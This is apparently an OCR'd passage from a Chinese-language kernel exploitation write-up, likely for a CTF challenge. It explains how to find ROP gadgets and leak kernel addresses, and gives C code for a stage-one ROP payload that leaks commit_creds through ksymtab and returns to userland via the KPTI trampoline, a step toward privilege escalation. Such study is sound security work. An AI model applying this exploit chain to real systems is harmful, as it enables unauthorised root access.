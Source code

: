 + imagebase：由调试时查看栈中数据发现有一个地址处于`_text`~`_text+0x400dc6`，因此可以泄露计算出来
+ Read4ByteRet：从`_text`~`_text+0x400dc6`搜索`mov`类型的指令获得
  + PopRaxRet：配合
+ PopRdiRet：函数传参
+ kpti_trampoline， ksymtab_prepare_kernel_cred， ksymtab_commit_creds先查出偏移再+imagebase即可。提前准备



#### leak funcs addr

由于`_text`~`_text+0x400dc6`中没有`mov rdi, rax;ret`这样的指令，所以需要多次返回进入内核态泄露并最后执行**提权函数**

```c
unsigned long tmp_store;
unsigned long commit_creds;
void get_commit_creds(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax"
    );

    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("[*] =====> commit_creds: %lx\n", commit_creds);
    stage_2();
}

/*leak commit_creds*/
void stage_1(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;       //rbx
    payload[off++] = 0x0;       //r12
    payload[off++] = 0x0;       //rbp
    payload[off++] = PopRaxRet;
    payload[off++] = ksymtab_commit_creds - 0x10;
    payload[off++] = Read4ByteRet;
    payload[off++] = 0;    //pop rbp
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0;             
    payload[off++] = 0;
    payload[off++] = (unsigned long)get_commit_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak commit_creds()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}
```
